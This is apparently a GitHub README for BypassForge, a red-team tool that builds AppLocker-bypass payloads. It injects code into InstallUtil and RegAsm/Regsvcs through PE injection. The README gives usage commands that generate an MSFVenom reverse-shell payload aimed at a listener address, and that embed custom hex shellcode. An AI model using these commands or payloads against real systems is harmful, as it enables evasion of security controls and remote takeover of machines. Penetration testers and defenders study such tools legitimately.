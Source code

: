 # BypassForge
Generate Payloads utilizing Process Injection techniques for Living-off-the-Land Applocker Bypass Executables like InstallUtil and RegAsm/Regsvcs in Windows. Currently only two LOL Binaries are supported (InstallUtil & RegAsm/Regsvcs) along with one Process Injection technique (PE Injection). Later on, other techniques and binaries will be added to the tool.

# Example Usage
The script can be used in two modes:
- **MSF Mode**
- 
Parameters like listener IP, listener port and MSF payload type are specified, based on which MSFVenom payload is generated and added to the final binary.
```
python BypassForge.py -b InstallUtil,RegAsm -lh 127.0.0.1 -lp 8080 --payload windows/x64/shell_reverse_tcp
```
![image](https://github.com/user-attachments/assets/047de769-d90f-4350-b7c9-96ce3382d891)


- **Custom Shellcode Mode**
- 
Custom shellcode which are created using 3rd party tools like micr0_shell (https://github.com/senzee1984/micr0_shell) or manually created is specified. This shellcode is added to the final payload binary.
```
python BypassForge.py -b InstallUtil,RegAsm --custom --hex-shellcode 4831d265488b42604<SNIP>c9515151514989c84989c9ffd0
```
![image](https://github.com/user-attachments/assets/c60a0235-f614-4823-9fc9-606c4f5e59be)
